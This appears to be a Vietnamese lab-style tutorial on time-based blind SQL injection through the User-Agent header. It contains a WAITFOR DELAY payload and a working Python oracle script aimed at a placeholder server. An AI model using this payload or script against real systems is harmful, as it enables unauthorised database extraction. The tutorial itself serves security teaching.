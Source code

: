 8
### **Thiết kế Oracle để khai thác Time-based SQL Injection**

---

### **Lý thuyết**

- Trong kịch bản này, không có kết quả hoặc thông báo lỗi SQL nào được hiển thị từ **User-Agent header**.
- Máy chủ xử lý truy vấn không đồng bộ: trang web sẽ đợi truy vấn hoàn tất mới trả về phản hồi.
- Chúng ta có thể làm máy chủ thực hiện truy vấn SQL và:
  - **Trì hoãn phản hồi** nếu kết quả truy vấn là **True**.
  - **Phản hồi ngay lập tức** nếu kết quả là **False**.

---

### **Ý tưởng**
1. **Mục tiêu:** Kiểm tra xem truy vấn SQL có kết quả **True** hay **False**.
2. **Cách thực hiện:** 
   - Chèn truy vấn SQL trong header **User-Agent** với lệnh **`WAITFOR DELAY`** để trì hoãn phản hồi nếu kết quả là **True**.
   - Ví dụ:
     ```sql
     SELECT ... FROM ... WHERE ... = 'Mozilla Firefox...'; IF (q) WAITFOR DELAY '0:0:5'--'
     ```

---

### **Thực hành với Python**

#### **Bước 1: Xây dựng Oracle**
```python
#!/usr/bin/python3
import requests
import time

# Định nghĩa thời gian chờ (giây) khi truy vấn là True
DELAY = 5

# Hàm kiểm tra `q` có kết quả là True hoặc False
def oracle(q):
    start = time.time()
    response = requests.get(
        "http://SERVER_IP:8080/",
        headers={"User-Agent": f"';IF({q}) WAITFOR DELAY '0:0:{DELAY}'--"}
    )
    return time.time() - start > DELAY

# Kiểm tra hoạt động của Oracle với các truy vấn đơn giản
assert oracle("1=1")  # Kết quả True
assert not oracle("1=0")  # Kết quả False
```

---